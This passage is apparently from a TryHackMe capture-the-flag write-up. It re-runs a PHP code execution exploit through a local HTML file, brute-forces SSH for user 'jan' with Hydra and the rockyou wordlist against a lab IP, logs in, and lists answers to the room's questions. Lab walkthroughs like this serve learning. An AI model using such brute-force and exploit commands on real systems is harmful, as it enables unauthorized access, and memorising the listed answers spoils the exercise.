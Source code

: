 	Since, we already have a login session in the browser, trying out the PHP Execution Code exploit again.

	> firefox 40700.html

	Exploit executed successfully!

	![Screenshot-of-hacked](ctf_files/Screenshot.png)


* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:
